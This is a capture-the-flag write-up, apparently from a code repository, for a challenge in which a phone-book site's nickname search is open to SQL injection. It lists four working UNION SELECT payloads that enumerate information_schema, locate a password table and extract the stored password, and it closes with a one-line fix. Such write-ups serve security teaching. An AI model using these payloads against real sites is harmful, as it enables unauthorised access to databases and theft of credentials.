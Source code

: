 hackers
==============

Overview
--------
A website gives access to telephone numbers of people and also has a restricted area where access should only be granted with a correct password.

Vulnerability
-------------
The server is vulnerable to SQL injections with the form field for searching nick names in the telephone book. This can be used to access the information_schema database of mysql and to get the information we need (table names, column names) in order for the final sql injection query to return our password for the flag.

Exploitation
------------
We need a few queries. (We always union select 4 columns as this is necessary in this case.)

* 1' AND 1=2 UNION SELECT table_schema AS name, table_name AS surname, TABLE_TYPE AS nick, 1 AS telephone FROM information_schema.tables WHERE table_name LIKE '%book%

to get the table name and schema name (database name) of our working set. (hackrzpasswdz, hackers)

* 1' AND 1=2 UNION SELECT table_schema AS name, table_name AS surname, TABLE_TYPE AS nick, 1 AS telephone FROM information_schema.tables WHERE table_schema LIKE '%hackers%' AND table_name != 'hackerztelbookz

get the table with the password information (hackrzpasswdz)

* 1' AND 1=2 UNION SELECT COLUMN_NAME, 1, 1, 1 FROM information_schema.columns WHERE table_schema='hackers' AND table_name='hackrzpasswdz' AND COLUMN_NAME != 'id' AND COLUMN_NAME != 'hacker_id

column information for hackrzpasswdz

* 1' AND 1=2 UNION SELECT hacker_id, secretpaswd, 1, 1 FROM hackers.hackrzpasswdz WHERE hacker_id != '6

our password (second try without id 6)

Solution
--------
Escape the user input query.
